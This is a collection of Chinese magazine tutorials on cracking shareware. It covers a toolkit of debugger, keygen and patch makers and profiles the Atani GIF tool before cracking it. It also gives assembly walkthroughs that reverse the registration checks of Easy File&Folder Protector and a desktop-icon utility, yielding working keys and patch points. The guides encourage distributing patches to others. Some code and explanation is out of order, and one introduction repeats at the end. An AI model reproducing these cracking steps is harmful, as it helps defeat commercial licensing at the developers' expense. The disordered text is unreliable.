学习破解，不仅仅是要能够取得完整的使用功能，更重要的是要从中学习软件功能的实现方法，加密解密知识的原理和实现的方法。所以作为一个 Cracker，既要学会看（看懂代码的意义）、解（解析代码的结构）、改（修改代码），更应当至少学习一门编程语言。利用编程语言验证分析的正确性和实现方法，反过来又可利用编程语言的演算结果来理解汇编代码的意义。大家都知道，汇编代码自身并不难读懂，但一大堆代码的组合放在一起应当怎么叙述，恐怕不是所有人都能做好的。故而，编程与破解这一对冤家有时是敌对关系，有时又要成为伙伴关系，如果能够做到优势互补，知此知彼，无论对于软件编程者还是软件破解者，都会受益匪浅。

这里我要说的是：如果你要学习（好）破解知识，收罗一些必要的工具并掌握其使用方法是非常必要的。这不仅是能够做到事半功倍，更有利于相互交流。使用哪些工具，随个人的爱好而定，下面我主要介绍一下我的工具集合，也许这其中也会有你的最爱呢？

##### OllyDbg

这是破解者必备的软件动态调试工具，其使用方法大多数人都会，我就不多说了。作为特殊用途，下面说几个要点。

- 1）写破解文章复制代码时，我们没有谁去看机器码，所以应当在复制代码前关闭机器码的显示部分，通常情况下的显示如图1所示。


图1

跟踪软件时，Hex 转存列一般应该稍微拉开一段距离，以便看清函数主体和跳转情况。代码形如：

```asm
00409220 55        PUSH EBP
00409221 8BEC      MOV EBP,ESP
00409223 83C4B8    ADD ESP,-48
00409226 53        PUSH EBX
00409227 56        PUSH ESI
00409228 57        PUSH EDI
00409229 33C0      XOR EAX,EAX
```

我们可以看到，机器码和汇编码交织一团，不易观看。在复制代码时，Hex 转存列应该拉至最小，直到成为一条线，如图2所示，则复制的代码如下。

| 地址 | 反汇编 |
|---|---|
| 00409220 | PUSH EBP |
| 00409221 | MOV EBP,ESP |
| 00409223 | ADD ESP,-48 |
| 00409226 | PUSH EBX |
| 00409227 | PUSH ESI |
| 00409228 | PUSH EDI |
| 00409229 | XOR EAX,EAX |


```asm
00409220 > PUSH EBP
00409221   MOV EBP,ESP
00409223   ADD ESP,-48
00409226   PUSH EBX
00409227   PUSH ESI
00409228   PUSH EDI
00409229   XOR EAX,EAX
```

大家再看看，是不是清晰多了？坏处是看不清跳转的路径。对比大多数人的破解代码看看，如图3所示，不知道大家喜欢看哪一种呢？

```asm
00405057 64:A1 00000000    MOV EAX,DWORD PTR FS:[0]
0040505D 50                PUSH EAX
0040505E 648925 00000000   MOV DWORD PTR FS:[0],ESP
...
```


- 2）补丁的保存方法。跟踪时，有时不免要修改一些汇编码，以使软件的运行流程按照我们的需要进行。而往往经过修改的代码不止一处，如果一次次地保存既耽误时间，也可能遗漏某个地方。所以在保存修改过的文件时，我们应该采用如下的方法进行。

在 OD 的代码区使用右键菜单，选择“保存到可执行文件 -> 全部修正”，在弹出的对话框中选择“全部复制”，在再弹出的对话框里单击右键，选择“保存到文件”，之后选择合适的文件名保存即可。

- 3）不修改代码的操作方法。很多情况下，我们不知道修改代码合不合适，这时可以考虑修改数据，修改数据可以在三个位置进行。

一是寄存器区，如图4所示。在红色字符的地方双击，可以在弹出的对话框中修改数据。浮点寄存器区，如图5所示，操作方法相同。


二是标志寄存器区，如图6所示。在第2列上双击，可改变标志状态。如果你是要改变跳转流程，当代码运行到跳转代码处时，如果你不熟悉，可以在其上双击进行测试。如果跳转发生改变，就可以按 F8 运行。如果不对，再双击一次即可还原，然后再选择其它的标志进行测试。


三是运行状态显示区，位于汇编码与 Hex 转存的中间，如图7所示。这个地方也可以修改数据，但不能采用双击的方法进行，而是要使用右键菜单，选择“修改数据”，在弹出的对话框中动态地修改或复制数据，如图8所示。


以上这些功能与操作，在进行软件跟踪时，对左右程序的运行起着重要的作用，需要多加练习。

##### 文本编辑器

我们需要记录软件运行的关键代码，必要时可以给出相关的说明。简要的说明可以在 OD 的注释位置直接进行，如果叙述较多就不大方便了。

Windows 自带的记事本、写字板当然不错，但缺点也是显而易见的。试想，你在记事本里写一个东西，又想去看另一样东西，结果会怎么样？不是要开多个窗口，就是打开了这个关闭了那个，而且编辑文本时功能较少。这里我推荐一款国外的软件 EmEditor，国内有汉化版下载。

EmEditor 的优势之一是能同时打开多个文档，使用卡片形式进行管理。查看不同的文档时，只需要在卡上单击一下即可，十分方便、省事，如图9所示。


图9

优势之二是这个软件支持很多的文件格式。比如你想编辑一段 C 代码，输入几个字符后，保存文件时附带扩展名，随后的输入就会完全按照 C 程序的编辑环境进行，显示也会按照语法着色和代码缩进的方式进行。它仅缺少跟随提示，语法错误需要我们自己掌握。如图10所示。


图10

优势之三是它的查找功能特殊。查找时，所有匹配的单词或数据同时产生背景色（可定义颜色），所寻找的东西在什么地方一目了然，有用信息与无用信息很容易分辨。这样的好东西不能不用啊！

##### PE 文件查看工具

PE 文件的查看工具网上较多，结合查壳、密码学代码辨识，常用的就是 PEiD，它支持插件功能，很多人为它编写了不少插件，功能大为扩展。查询这个工具时，尽量找高版本的，多收集一些插件备用。

如果你还要深入学习，应该将 ImportREC 和 LordPE 也收罗进来，以备不时之需。这些软件的使用方法我就不多说了。

##### 密码学计算器

破解软件我最喜欢用 MD5 和 SHA1 等作保护的。虽然软件中计算出的代码又臭又长，而破解它却是非常简单。只要知道是这些保护方式，大多数情况下都是明码方式出现的，使用密码学计算工具，不用跟踪软件就可以算出注册码。

而网上源代码遍地都是，即使是变形的，稍作修改就可以重新编制计算器。现成的工具为 DAMN Hash Calculator。如果你能编写程序，在网上找一个加密算法模块，几十种加密算法的计算器就会应运而生了。

##### 十六进制编辑器 WinHex

只要你 OD 用得比较熟悉，十六进制编辑器的作用不是很大。一些软件的注册码可以在 WinHex 里看得出来，准备一个也是必要的。当然，你若是进步很快，这东西在处理一些特殊问题时能起到至关重要的作用，相关使用教程可在网上搜索。

##### 内存注册机 KeyMake

内存注册机是初级破解爱好者喜好的常用工具。大多数情况下，只要软件采用明码比较，内存注册机都可以拦截到真正的注册码，通过设置分段拦截，也可以得到分段比较的组合注册码。但这东西要使用好，除了要设置正确之外，选择合适的拦截点也非常重要。

一些初学者使用 OD 跟踪时，能够在堆栈区看到注册码，就是制作不出注册机来，原因就是选择位置不对，最好选择在注册码比较的时候。关于使用方法，大家可以自行查看帮助文件。当然，内存注册机还有一些其它功能，如可制作加载器等，也可以学习实用。

##### 补丁制作器

使用过汉化软件的人都知道，一个英文软件经过汉化补丁打过补丁后就是中文版了。破解软件也可以像汉化英文软件那样，将受限制的软件转化为已注册版使用。补丁制作器用于将修改过的文件与未修改过的文件进行比较，提取数据对比时的不同位置数据，单独制作成一个软件。

这样，别人就可以通过你的补丁程序为自己使用的对应软件打补丁，以正常使用这个软件，所以补丁制作器是作为相互交流使用的。

补丁制作工具网上流传的有很多种，我经常使用的是 Dup，也有很多的版本。不过教程却鲜见，因此我这里做一些介绍（我自己做过汉化，可能你的不完全一样）。打开 Dup 后的界面如图11所示，其中的补丁标题需要输入，应用程序名不需要输入，只需打开目标文件即可，其他的可顾名思义。


一般情况下，我们在 OD 里已经将修改过的文件单独地保存为一个文件了。制作补丁时就选用偏移补丁，所以这里主要说明一下偏移补丁部分。我们切换到偏移补丁卡，如图12所示。分别打开原始文件和已补丁文件，然后按“比较”按钮，一会儿在列表框中就会填满两文件中的不同点的位置和修改前后的数据。取得数据后，保存项目，就可以创建补丁了。怎么样，不难用吧？

其实，如果你会编程，你也可以编程制作补丁的。这样制作的补丁文件更小。我以往写过一篇教程，名称为“不脱壳破解软件”，大家可用 Google 搜索一下学学（呵呵）。

##### 工具集成问题

破解上好用的工具还有很多，我就不一一介绍了，但是到了这里却产生了一个问题。假设你有 10 个常用的工具软件，又分别放在不同的位置，跟踪调试软件时都需要它，你是不是为要一一去打开它而烦恼过呢？有时因为时间过长的原因，一时忘记放在哪里了，满电脑里到处乱翻可能耽误你不少的时间。如果能够将这些工具集成起来放在一个特定的位置，要用时点击一下按钮就启动了，那一定很惬意吧？

现在这个问题已经好解决了，因为已经有人给 OD 重新编写了一个工具栏插件，其全称为 Olly Toolbar Manager Gold。我们只需要将其所带的两个文件复制到 OD 的安装目录，用 `cmdbar.dll` 替换原来的，即可在插件菜单里看到这个插件，如图13所示。


接下来就可以配置这个工具栏了。选择配置菜单“Configuration”，会弹出如图14所示的对话框。先在下面的“Command”栏里打开你要使用的工具路径文件，再在“Name”栏给这个工具取一个名称，再按 Add 按钮就会将对应的工具集成到 OD 界面上来了。你想添加多少就添加多少，并且还可以对它们进行排序，以适合你的喜好。


上图中间的部分是让你将这个集成工具栏放在 OD 界面的什么位置的，一般选择默认形式比较方便。配置好的工具栏如图15所示。这样，以后要使用相应工具，就再也不必翻箱倒柜地到处寻找了。


其实，不少破解大侠的手里都有很多的好东西，只是出于各自特别的原因，没有拿出来分享而已。只要你善于收集，虚心向人请教，你不仅会成为一位破解牛人，说不定还会成为软件界的牛人呢！

好了，这次就算灌水吧。灌到这里也该结束了，咱们下期见真章喽！

适合读者：破解爱好者

前置知识：汇编语言

#### 小菜学破解之三

文／图 laoxuetong


> “听‘风’”

人云：看风使舵。看者，察言观色也。风，动静矣。破解软件，就要学会观风，善于捕捉有用的信息。表面上有些东西无关紧要，如果你稍加推测，不难发现它就是重要的线索。当你费尽心思寻找突破口时，真有踏破铁鞋无觅处的感觉。蓦然回首，发现关键的东西已经从你手上滑了过去，岂不有得来全不费功夫之慨然？所以，正式研究破解软件开始之前，搜集所有可能有用的信息，并仔细进行比对和分析，对于快速定位于关键代码处，是大有裨益的。

那么，这个风怎么观呢？首先要——

##### 听“风”

听风过程就是准备过程。大多数共享软件都要求你注册才能正常使用。注册时，软件开发者会根据自己的要求和能力制作一套方案，让你做出必要的选择与填充，之后再对采集到的信息进行相关交换，以确定是否正确。这期间我们该收集哪些信息呢？

###### 1）软件版本信息

软件开发者发布的软件通常可以分为纯试用版和注册版两大类。纯试用版通常是不能（不用）注册的，有时也叫预览版、测试版、评价版等。这类软件是不能注册的，并且常常功能不全，关键的代码并不包含在软件中。要填补这些关键代码，可不是一般人能做的，所以这类软件基本上没有破解的价值，即使软件中有可以输入注册信息的位置也是如此。国内典型的例子如“超级网管”(SuperLANadmin)就是这样。纯试用版中还有另外一类软件，典型的是限时版。这类软件不能注册，规定了使用时间，到期后就不能使用了，这类软件很多都是可以全功能试用的，理论上极具爆破价值。

至于注册版，大多数的软件均是这种情况。一般不注册则功能受限，注册后自动解除限制。这类软件理论上可跟踪注册验证算法，也可以爆破，与你个人的能力紧密相关。

###### 2）收集注册要求

每个软件在注册时都有一定的格式。有的要求使用注册名、注册码（或序列号）方式注册；有的要求使用机器码、注册名（以及单位名称）方式注册；有的使用 Key 文件注册；有的除使用注册名、注册码方式外，交易后会给你一个单独使用的注册程序进行注册；还有一些除了要求注册信息完整之外，还要求你连接网络，进行网络验证（或者是偷偷地进行）等等。收集这些信息并加以分析，粗略地估计软件在完成这些动作时可能采用的 API 函数，加以确定采用合适的断点，甚至可以推测软件的算法类型。

###### 3）收集软件编程平台

理论上，破解软件是不需考虑软件编程平台的。而在实际跟踪调试过程中，如果能够事先知道编程平台的话，结合各平台中算法的特殊性，结合自己的跟踪经验，可以快速地知道哪些代码是关键代码，哪些代码与验算无关。

例如，很多刚入道的朋友害怕跟踪 VB 编写的软件，原因是 VB 的计算过程一般比较长（常戏称为垃圾代码），但实际上并没有做多少计算。另外，VB 编写的东西一般自身代码中不作计算，往往将计算任务交给 API，不熟悉函数的人不知道软件在干什么。VB 编写的东西还有一个很大的特殊点，那就是指针的使用。VB 编程过程中基本上不能使用指针概念，而编译出来的东西不但较多地使用了指针，指针的指针的使用更是基本操作，内存的使用跨度就比较大。这样一来，大多数情况下甚至看不到你输入的数据，更是增加了对初学者的打击，使其失去信心。

其实，VB 的东西是比较好跟踪的，而且算法的直观性更符合现实计算模式，只是代码稍长而已；并且受到数据结构的限制，一般情况下不能使用别扭的（不好叙述的）算法结构，也不能直接进行大数运算（稍大一点就会溢出），所以算法比较好理解，故而 VB 的东西大多是明码比较的。当然，如果真正地使用了自编的大数运算代码的话，初学时不妨学会放弃，那东西会让你生不如死的。

VC、Delphi 编写的软件汇编代码比较整齐、集中，深得破解者的喜爱。大多数情况下，软件在编译时会将计算代码“复制”到软件中，所以，标准计算代码在不同的软件中是相同的。这样一来，熟悉了这些代码后，往往看见面熟的代码就知道是该跟入还是该步过，能节约跟踪成本啊！

以上所说的是了解编程平台的必要性。当然，要注意灵活性，不要机械地学习。

###### 4）注意软件功能

一般情况下，软件具有什么功能与软件注册是没有关系的，可不予理会。但有些软件具有多语言版本，这项功能会影响字符串断点的使用。软件在启动时会加载语言文件，而软件自身是英文的，其中不乏有与注册信息相关的字段。如果在这里下断点，一般是无用断点，软件在这里仅仅是作为加载语言文件的索引使用。软件运行后，就不会再来到这里了。

###### 5）发生现象

当你输入好注册信息并点击注册按钮之后，要注意观察随后的现象。你可以作如下测试：首先什么也不输入，直接点击注册按钮；然后在每一个可输入的地方采用短输入（一个字符）方式输入；最后才用长输入（填满）方式输入。经过一番折腾，一般会有如下的几种情况。

- 1. 无声无息，什么提示也没有。这类软件的断点相对难以寻找，大多应该采用 API 断点在所有的函数调用处下断，然后逐一排除无用断点。
- 2. 有部分提示，如名称太短、注册码错误等，这可是我们的至爱！
- 3. 没有提示，但打开一个网页。极有可能是要进行网络验证，也可能是要给你些信息。

如果有相关的出错提示的话，你必须做好两件事：第一，提示的内容，中文还是英文？英文的可以采用 OD 寻找参考偏移点；如果是中文的则最好使用 W32Dasm 寻找，快速而直观。第二，提示内容的属主，是消息盒还是一个窗体？理论上这两个东西是一回事，但调用方式是不同的。这个略知编程的人都知道区别的。如果弹出的对话框中包含了一个图标，是红叉或者是惊叹号，应该是消息盒；如果没有，极有可能是一个窗体。消息盒嘛，自然就是用 API 断点了。

如果是要进行网络验证，肯定要进行网络连接，对应的 API 函数就成为关键断点了。断点之前软件会组织注册信息，这时的字符串参考中可以看到相关网址，直接使用 OD 搜索就可以了。不过，网络验证一般较难搞定的，验证的函数在服务器上，不熟悉网络编程往往看不出软件想要干些什么，该返回什么。初学者可考虑放弃。

##### 范例实习

最近看到一款制作 GIF 动画的软件 Atani。根据 ODay 的中文介绍，只需 5 个步骤即可做出专业的动画 GIF 或 AVI，动画可由外部图片或软件内置的图像编辑器制作的图片构成。本人虽然没有制作动画的天分，但也想学习学习制作方法，如果你也喜欢，可以到 http://www.screenthiefsoft.com/atani_features.html 去下载。

软件安装后，在未注册的情况下启动后，软件标题栏上的显示如图1所示，大意就是告诉你现在使用的是未注册版本。很显然，这种软件属于注册版的范畴，是对外发行的正式版软件。此为信息一。


点击菜单“帮助->Registration”，出现如图2所示的对话框。这个注册对话框与众不同，除了“OK”按钮外，还多出了一个“Confirm”（确认）按钮。没有注册码、序列号之类的输入框，只有注册码输入点。未输入注册信息时，按钮“Confirm”可用而“OK”不可用。什么意思呢？疑之（解密爱好者的风格）！


试验一：考虑到输入框与 Confirm 按钮为一组。

疑 Confirm 按钮为验证按钮，OK 按钮为关闭对话框用。那么 Cancel 按钮呢？糊涂，再疑之。先什么也不输入，看看动静。单击 Confirm 按钮，弹出一个提示，如图3所示，叫你输入注册码呢！行内人就喜欢这东西，赶快记下这段英文备用。此为信息二。


实验二，输入假的测试注册码（随意输入），单击 Confirm 按钮后，情况如图4所示。输入框不再可以输入了，没有任何提示，OK 按钮也可以使用了。一般情况下这就算注册成功了，不然不会封闭输入的。按照理论，点击 OK 键后，所有的试用版标志都会被取消。好，现在点击 OK 按钮，关闭这个对话框，也没有遇到提示什么的。嗯？软件标题栏的试用字样依然存在。此为信息三。


再次调用注册对话框，此时的结果如图5所示。哈哈，注册菜单被封堵了，注册成功了！标题栏上的字样可能是软件作者的失误所致，一般重新启动后会自行消失的。此为信息四。


软件是破解版？又一疑之。

关闭软件，重新启动软件。咦，怎么是“外甥打灯笼——照旧”，跟没注册一样？看来是白忙活了一回！嘿嘿，试验嘛，哪来那么顺利的？看来软件有重启验证的功能，此为信息五。

抑或是破解不全？还疑之。

看看，我们搜集了不少相关信息了吧？如果你有兴趣，还可以打开帮助文件来看一看，了解软件的注册与未注册功能上的差异，为正式破解方法的选择提供参考，如图6所示。我英文不好（那是相当的不好^_*），大家来认吧！


不同编程平台编辑的东西有不同的特征，积累经验后就知道该怎么处理，哪些地方该进，哪些地方该过。用跟踪语言来说，就是哪些地方该步入，哪些地方该步过。用操作方法来说，就是哪些地方该用 F7，哪些地方该用 F8。呵呵，没被我绕糊涂吧？

打开 PEiD（版本看你准备的），载入软件 Atani 后，显示的结果如图7所示。Borland C++ 的，这种软件应该和 VC 差不多吧，理论上代码比较简洁，易于跟踪。此为信息六。


不过 PEiD 看东西不一定准确，误差也是难免的。如果你对软件汉化有兴趣，一定准备了 ResScope，手动汉化软件、修改资源是把好手。用 ResScope 打开 Atani 后，结果如图8所示。活脱脱的 Delphi 编写的东西，怎么看呢？一是 Delphi 编辑的东西经过 ResScope 识别后，资源中包含 RCData 项目；二是展开这个项目时可看到如图9所示的结构，大多数的项目都带有 T，如 TABOUTFORM 代表 about form，关于窗体啊！三是在含 T 对应的项目上单击，其左边的展示区域形如图10所示，典型的 Delphi 风格。此为信息七。


下面该收集编程平台信息了，为正式跟踪前做准备，同时看看软件是不是加了壳。因为不同的平台编译的东西有不同的特征。


图9


图10

看到这里，大家也许会说：你啰嗦了半天，到底想干什么？

了解这类信息，有助于你进行选择啊。我在上一篇文章说过了破解的兵器及其组合，只介绍了我的喜好。其实，很多破解爱好者还喜欢一些其他的兵器，如 IDA（或 IDA Pro），另外还有 Win98（Win ME）下的 TRW2000，系统级的 SoftICE 等。现在使用 Win98 的人不多，SoftICE 常常接管系统让人心烦，所以我没有推荐。而对付 Delphi 编写的软件，DeDe 是一个有力的利器，可以直接找到注册流程中的关键代码的位置（不过并不是都能一帆风顺的，看运气），这么好的软件我为什么没有列入推荐名单呢？就我的感觉，OD 同样可以做到，只要你能够用精 OD 就成。

记住我的话，每一种编程平台编译出来的东西都有它的特殊性。平时要注意留心，比对异同点，以确定你跟踪时的操作方法。同时也要记住别人的破解教程，对应的软件，你也应该找来作为练习！

这个软件到底是用 Borland C++ 编写的，还是 Delphi 编写的，我暂时说不清。我没学过 Borland C++，不敢妄下断言，你要是知道，不妨告诉我。在这里，我将这个软件当作 Delphi 看待了，从我的跟踪情况来看，也不完全像是 Delphi 的。

恍惚中，但见一只臭鞋扔过来……

喂，上好的 DeDe 你不用，关键代码在哪？

我手捂着鼻子，只能闷声说道：我这里是说的“听风”问题啊。要知道怎么在 OD 中找到关键代码，请看下期——玩“风”之追“风”。

- 适合读者：破解爱好者
- 前置知识：汇编语言

##### 非明码程序的算法体验

文／图 December


刚接触破解的新手们都会听到或者看到别人经常说明码或者非明码比较的话，但到底明码和非明码是什么意思呢？所谓的明码和非明码主要是针对程序里面是否出现明文的注册信息来说的。顾名思义，明码就是会出现注册码，也就是说可以在程序里面找到注册信息，而非明码是不会出现明文信息。网络上至少有 30% 以上的共享软件都有出现明码的情况。而针对非明码软件的破解，主要有两种情况，一是爆破，二是搞定程序注册算法流程。但是有时候可能爆破比搞定算法更繁琐，因为有一处爆破不完全的话，都不会完美爆破。既然如此，本文就用两个简单的实例（正向和逆向）做一下简单介绍。我们先来看一个可以使用正向流程分析出注册码的例子。

##### Easy File&Folder Protector 4.4

一个非常 Easy 的文件和文件夹保护程序，只要给 Easy File&Folder Protector 设置一个密码，就可以保护你的任何文件和文件夹。没有这个密码，任何人都无法访问经过 Easy File&Folder Protector 保护的文件和文件夹。对文件夹进行保护时文件夹进行了隐藏，这样就显得更安全。此外，它还可防止别人通过网络访问你的文件。

安装好程序并运行，发现有注册提示错误，这正是我等菜鸟的至爱，如图1所示。使用查壳工具 PEiD 扫描为“Borland Delphi 6.0 - 7.0”编写，没有加壳，可以省去脱壳的麻烦了。OK，既然如此，我们就用 OD 载入，使用“超级字符串”插件搜索一下，结果如图2所示。双击后来到下面所示的代码处。


```asm
push EFPP.004A3DC8    ; open
mov eax,EFPP.004A3E74 ; registration key is ok
mov eax,EFPP.004A3E94 ; registration key is not valid
mov edx,EFPP.004A3F4C ; err
mov eax,EFPP.004A405C ; x

图2
```

```asm
004A3DF7  E8 3477FFFF   call EFPP.0049B530
; 关键call
004A3DFC  84C0          test al,al
004A3DFE  74 21         je short EFPP.004A3E21
004A3E03  8B45 F0       mov eax,dword ptr ss:[ebp-4]
004A3E13  B8 743E4A00   mov eax,EFPP.004A3E74 ; registration key is ok
...
004A3E2C  B8 943E4A00   mov eax,EFPP.004A3E94 ; registration key is not valid
```

很明显，004A3DF7 处是一个关键 Call，下面有一个跳转，如果是爆破的话，不太建议在这里爆破（关于爆破，不在本文讨论范围，不懂的可以翻翻以前的黑防杂志），因为不知道程序还将会发生什么事，所以我们进到关键 Call 看看。

```asm
0049B569  83F8 10   cmp eax,10
; 注册码必须为16位
```

```asm
0049B56C ...
0049B572  8D45 F4       lea eax,dword ptr ss:[ebp-C]
0049B575  50            push eax
0049B576  B9 08000000   mov ecx,8
0049B57B  BA 01000000   mov edx,1
...
; 注册码前8位
0049B5A4  E8 6F82F6FF   call EFPP.00403818
0049B5A9  837D F8 00    cmp dword ptr ss:[ebp-8],0
0049B5AD  75 67         jnz short EFPP.0049B616
...
; 注册码后8位
0049B5CD  E8 FA98F6FF   call EFPP.00404ECC
0049B5D2  85C0          test eax,eax
; 测试注册码长度
0049B5D4  7E 17         jle short EFPP.0049B5ED

0049B60B  E8 B0FDFFFF   call EFPP.0049B3C0
; 算法call
0049B610  84C0          test al,al
0049B612  74 02         je short EFPP.0049B616
; 爆破点
0049B614  B3 01         mov bl,1
; 注册成功标志
```

很容易看到，程序会对注册码的长度进行验证，如果不是16位的话，那么就 Game Over 了。将注册码改为16位后，发现可以通过 0049B56C 处的跳转。这里还有一个关键的地方，就是 0049B60B 了，继续进去看看。

```asm
0049B3D4  8A13         mov dl,byte ptr ds:[ebx]
; 第1位
0049B3F5  8D45 F8      lea eax,dword ptr ss:[ebp-8]
0049B3F8  8A53 01      mov dl,byte ptr ds:[ebx+1]
; 第2位
0049B3FB  E8 F499F6FF  call EFPP.00404DF4
...
0049B40A  8D45 F4      lea eax,dword ptr ss:[ebp-C]
0049B40D  8A53 02      mov dl,byte ptr ds:[ebx+2]
; 第3位
0049B410  E8 DF99F6FF  call EFPP.00404DF4
```

```asm
0049B41F  lea eax,[ebp-10]
0049B422  mov dl,byte ptr [ebx+3]   ; 第4位
0049B425  call 00404DE4
0049B432  add esi,eax
0049B434  mov eax,dword ptr [4A6688]
0049B439  cmp esi,dword ptr [eax]   ; 比较，前四位必须等于22
0049B43B  jnz 0049B4FB
```

```asm
0049B4DB  add esi,eax
0049B4DD  lea eax,[ebp-30]
0049B4E0  mov dl,byte ptr [ebx+F]   ; 第十六位
0049B4F0  add esi,eax
0049B4F2  mov eax,dword ptr [4A63B4]
0049B4F7  cmp esi,dword ptr [eax]   ; 比较结果是否等于9
0049B4F9  je short 0049B4FF
```

从上面代码很容易看出，注册码的前四位相加结果必须为22，否则 0049B43B 处的跳转就跳向死亡了。

注册码的第 7、10、13、16 位相加结果必须为9，否则 0049B4F9 处的跳转也会跳向死亡。

整理一下上面的分析结果，随随便便就可以弄出个注册码了：8248842890823654，输入后，可以看到注册成功的界面，如图3所示。

```asm
0049B444  mov dl,byte ptr [ebx+4]   ; 第五位
0049B447  call 00404DE4
0049B459  mov dl,byte ptr [ebx+7]   ; 第八位
0049B45C  call 00404DE4
0049B469  add esi,eax
0049B46B  lea eax,[ebp-1C]
0049B46E  mov dl,byte ptr [ebx+A]   ; 第十一位
0049B47E  add esi,eax
0049B480  lea eax,[ebp-20]
0049B483  mov dl,byte ptr [ebx+D]   ; 第十四位
0049B493  add esi,eax
0049B495  mov eax,dword ptr [4A66BC]
0049B49A  cmp esi,dword ptr [eax]   ; 比较结果是否等于30
0049B49C  jnz short 0049B4FB
```


图3

分析完所有代码，我们没有发现出现明文的注册信息，所以使用如 WinHex 之类的工具搜索注册信息，基本是不太可能找出注册码的。这个程序的算法比较简单，非常适合新手入门，如果你还没掌握的话，就要多多练习哦！下面再来看另一个程序的算法，此算法则需要逆推。

从上面的代码可以看出，注册码的第 5、8、11、14 位相加结果必须为30，否则 0049B49C 处的跳转同样会跳向死亡。

```asm
0049B4A1  mov dl,byte ptr [ebx+6]   ; 第七位
0049B4B3  lea eax,[ebp-28]
0049B4B6  mov dl,byte ptr [ebx+9]   ; 第十位
0049B4C6  add esi,eax
0049B4C8  lea eax,[ebp-2C]
0049B4CB  mov dl,byte ptr [ebx+C]   ; 第十三位
```

##### 桌面图标任我排 V2.10 Build 1425

桌面图标任我排是一款用于对 Windows 桌面图标随意排列的软件，支持常见的图形样式排列，具有排列样式多、新颖的特性。

这款软件使用了“ASPack 2.12 -> Alexey Solodovnikov”加壳，使用 PEiD 的插件可以轻松脱掉，也可以使用脱壳机或者手工脱壳，此处不详细介绍了。脱壳后发现同样是“Borland Delphi 6.0-7.0”编写的，随便注册一下，同样出现了注册错误提示。对于这个提示来说，基本就是破解中的关键点，关键又关键，因为有了这个提示，很容易在代码处定位，找到切入点后，剩下的就是体力活了，废话不多说了，继续我们的分析之旅。

```asm
004B1A42 83/7D F8 00    cmp dword ptr ss:[ebp-8],0
004B1A46 75 35          jnz short 004B1A7D
004B1A48 6A 40          push 40
004B1A4A 8D45 F4        lea eax,[ebp-C]
...
```

```asm
004B1AC5 8302 02        add [edx],2
004B1AC8 885430 FE      mov byte ptr [eax+esi-2],dl
004B1ACC 8B87 00030000  mov eax,[edi+300]
004B1AD2 8B55 FC        mov edx,[ebp-4]
...
```

上面代码形成新字符串的过程是将第七位的注册码 -1 后，转移到第二位，而原来的第二位 +2 后转移到第七位。

很明显，如果我们没有输入注册码的话，程序会自动提示输入，无论你是输入真的注册码还是假的注册码。

```asm
004B1A8D 8A58 01        mov bl,[eax+1]
004B1A91 8B45 FC        mov eax,[ebp-4]
004B1A94 E8 ...         call 00404938
004B1AAB 5A             pop edx
004B1AAE 8850 01        mov byte ptr [eax+1],dl
...
```

```asm
004B1AF0 8B45 F0        mov eax,[ebp-10]
004B1AF3 E8 ...         call 00404938
004B1AF8 8BF0           mov esi,eax
004B1AFD 7C 38          jl short 004B1B37
004B1B14 33C0           xor eax,eax
004B1B18 83C0 03        add eax,3
004B1B22 E8 ...         call 00404860
...
```

这里的运算是对新字符串2进行倒取其 ASCII 值后，再加上3，再次得到新的字符串3。

```asm
004B1B37 B8 300D4C00    mov eax,004C0D30
004B1B3C 8B55 FC        mov edx,[ebp-4]
004B1B3F E8 ...         call 004046D4
004B1B44 E8 ...         call 004B0EF8
```

```asm
004B1B49 84C0            test al,al
004B1B4B 0F84 85000000   je UNpacked.004B1BD6
004B1B51 6A 40           push 40
004B1B53 8D45 E4         lea eax,[ebp-1C]
004B1B56 B9 5C1C4B00     mov ecx,UNpacked...
...
; 恭喜！软件注册成功...
...
; Software\Microsoft\Windows\CurrentVersion\HJ
...
; Code
...
; 注册码错误！请重新输入！
```

从上面的代码分析可以得到，经过比较 Call 后程序就会判断注册码是否为真，为真就将注册信息写入 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\HJ` 中，名称为 `Code`。那么我们如何得知新的字符串3是不是注册码呢？所以必须得进到比较 Call 里看看。

```asm
004B0EFD E8 363AF5FF    call UNpacked.00404938
; 获取机器码
004B0F02 85C0           test eax,eax
; 测试长度
004B0F04 75 03          jnz short UNpacked.004B0F09
; 不为0就跳
004B0F06 33C0           xor eax,eax
004B0F08 C3             retn
```

```asm
004B0F09 A1 300D4C00    mov eax,dword ptr ds:[4C0D30]
004B0F0E 8B15 2C0D4C00  mov edx,dword ptr ds:[4C0D2C]
004B0F14 E8 633BF5FF    call UNpacked...
...
; 将新的字符串3和机器码比较
004B0F19 0F94C0         sete al
; 决定注册成功，为假就注册失败
004B0F1C C3             retn
```

原来新的字符串3要和机器码比较，不相等就注册失败。这里还有一个地方要注意，既然要和机器码相等，那么机器码长度和注册码长度必然相等。我的机器码是 `4IT75HUK`，转换成 ASCII 值后为：`34 49 54 37 35 48 55 4B`。那么按照上面分析出来的结果，我可以总结为如下的结果。

- 第一位 = 机器码第8位 - 3
- 第二位 = 机器码第2位 - 5
- 第三位 = 机器码第6位 - 3
- 第四位 = 机器码第5位 - 3
- 第五位 = 机器码第4位 - 3
- 第六位 = 机器码第3位 - 3
- 第七位 = 机器码第7位 - 2
- 第八位 = 机器码第1位 - 3

所以我得到的注册码是 `HDE24QS1`。这里虽然需要一个逆推过程，不过还算比较简单，所以完全用手工就可以计算出来了。下面来验证一下得到的注册码是否正确，结果如图4所示。看了不要奇怪哦，为什么图上的注册码和我们得到的注册码不一样呢？这个当大家练习时，自然就懂了，呵呵！


图4

到这里本文就结束了，上面我给大家介绍了正向和逆向两种注册算法流程的计算过程，希望能对大家有所帮助。最后，如果你在学习过程中碰到问题的话，可以到黑客防线的官方论坛发帖与我交流。

适合读者：破解爱好者  
前置知识：汇编语言

#### 小菜学破解之三：玩“风”之追“风”

文／图 laoxuetong


人云：看风使舵。看者，察言观色也。风，动静矣。

破解软件，就要学会玩风，善于捕捉有用的信息。表面上有些东西无关紧要，如果你稍加推测，不难发现它就是重要的线索。当你费尽心思寻找突破口时，真有踏破铁鞋无觅处的感觉。猛然回首，发现关键的东西已经从你手上滑了过去，岂不有得来全不费功夫之悦然？所以，正式研究破解软件开始之前，搜集所有可能有用的信息，并仔细进行比对和分析，对于快速定位于关键代码处，是大有裨益的。

那么，这个风怎么玩呢？

